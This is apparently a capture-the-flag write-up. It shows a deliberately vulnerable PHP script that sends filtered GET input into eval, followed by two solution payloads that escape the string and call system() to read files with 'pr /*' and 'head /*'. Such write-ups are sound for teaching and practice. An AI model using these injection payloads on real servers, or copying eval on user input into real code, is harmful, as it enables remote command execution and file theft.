

# strpos and substr

**Date:** 10, June, 2021

**Author:** Dhilip Sanjay S

---

## Code

- Bypass the filters to execute system commands via `eval`:

```php
<?php
ini_set('display_errors',0);
include("flag.php");
if(!isset($_GET['user'])) highlight_file(__FILE__);
else{
      $a=$_GET['user'];    
      if(strlen($a)>24 || gettype($a)!=="string" ){
        die("oh nâu!!");
      }   
if(preg_match("/\;|\^|\~|\&|\||\[|n|\]|\\$|\.|\`|\"|\||\+|\-|\>|\?|c|\>/i",$a)){
  $a=md5($a);
}

if((strpos(substr($a,4,strlen($a)),"(")>1 ||strpos(substr($a,6,strlen($a)),")")>1)
&&
(preg_match("/[A-Za-z0-9_]/i",
    substr($a,2+strpos(substr($a,4,strlen($a)),"("),2))
||
preg_match("/[A-Za-z0-9_']/i",
    substr(substr(substr($a,4,strlen($a)), 
    strpos(substr($a,4,strlen($a)),"("),12), 
    strpos(substr(substr($a,4,strlen($a)),
    strpos(substr($a,4,strlen($a)),"("),12),
    ")")
    -1,
    1))))
{
  $a=md5($a);
}

eval("echo 'Hello ".$a."<br>$flag';");

}
```

## Solutions

- `?user=%00%00%27,(system%00)(%27pr%20/*%27),%27` -> `?user='%00%00,(system%00)('pr /*'),'`
  - Check the behaviour of `%00` character in PHP
  - `pr` command - convert text files for printing 

- `?user=%27,system%20%20(%27head%20/*%27%20),%27` -> `',system  ('head /*' ),'`



